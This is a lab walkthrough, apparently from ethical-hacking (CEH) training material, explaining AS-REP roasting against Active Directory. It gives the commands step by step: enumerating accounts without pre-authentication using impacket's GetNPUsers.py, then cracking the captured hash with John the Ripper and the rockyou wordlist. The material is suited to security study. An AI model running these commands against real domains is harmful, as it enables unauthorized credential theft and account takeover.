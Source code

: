 
An AS-REP roasting attack targets user accounts in AD that do not require Kerberos pre-authentication, exploiting the DONT_REQ_PREAUTH setting. Attackers can request a ticket-granting ticket (TGT) for these accounts without needing the user's password.

The DC responds with an encrypted TGT, which the attacker captures. This TGT, encrypted with the user's password hash, is then subjected to offline password-cracking tools such as Hashcat or John the Ripper. By rapidly guessing the password, the attacker can eventually decrypt the TGT, revealing the user's password

In Parrot Security machine, open a new **Terminal** window and execute **sudo su** to run the programs as a root user (When prompted, enter the password **toor**)

Now, run the **cd** command to jump to the root directory

Type **cd impacket/examples/** and press **Enter** to move into the examples directory

Execute the command **python3 GetNPUsers.py CEH.com/ -no-pass -usersfile /root/ADtools/users.txt -dc-ip 10.10.1.22**

**GetNPUsers.py**: Python script to retrieve AD user information
**CEH.com/**: Target AD domain
**-no-pass**: Flag to find user accounts not requiring pre-authentication
**-usersfile** ~/ADtools/users.txt: Path to the file with the user account list
-**dc-ip 10.10.1.22**: IP address of the DC to query

We can observe that the user **Joshua** has **DONT_REQUIRE_PREAUTH** set. As this user is vulnerable to AS-REP roasting, we obtain Joshua's password hash

Copy that hash and save it as **joshuahash.txt**. Execute the command **echo '[HASH]' > joshuahash.txt**

Execute the command **john --wordlist=/root/ADtools/rockyou.txt joshuahash.txt**. This will crack the password hash and will give us the password in plain text

